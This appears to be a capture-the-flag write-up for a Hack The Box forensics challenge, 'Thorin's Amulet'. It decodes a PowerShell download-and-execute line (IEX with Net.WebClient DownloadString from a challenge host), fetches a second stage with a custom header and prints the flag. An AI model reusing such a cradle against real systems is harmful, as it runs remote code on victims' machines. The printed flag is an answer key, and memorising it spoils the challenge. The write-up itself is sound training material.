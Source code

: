 # Thorin’s Amulet 
![image](https://github.com/user-attachments/assets/5bbd05a8-1610-473e-b069-11939a66846d)

## Solve
Download the given file and spawn the docker.

Attempt to connect to the port but fails: 

![image](https://github.com/user-attachments/assets/604da6db-9b2e-462e-b35d-04a9be745e0b)

Check the powershell script that was provided and we find this: 

![image](https://github.com/user-attachments/assets/736e06c3-0ad1-4efb-9178-d1843b0e7456)

Decode the base64 encoded ciphertext and we get: 
```
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update") 
```

Now we know that it is a powershell script that runs a code remotely from the korp.htb server and downloads the text content from the URL given. 

Since we’ve gotten the port number from the docker, let’s try to access the site. 

Let’s use the ‘curl’ command to reach the data of that specific site: 

![image](https://github.com/user-attachments/assets/cae3cae2-3358-4ad9-b7ee-190cfd8d42d8)

What we got seems to be a second payload this time with the script sending a GET request to ‘http://korp.htb:31227/a541a’ and a custom header ‘X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d’. Now, let’s try to ‘curl’ again with the custom header: 

![image](https://github.com/user-attachments/assets/10f0b375-77ec-41e3-b5ca-476bc8a7da72)

Here we get a ciphertext that seems to be in hex format. After decrypting it we get our flag. 
```
Flag = HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r} 
```
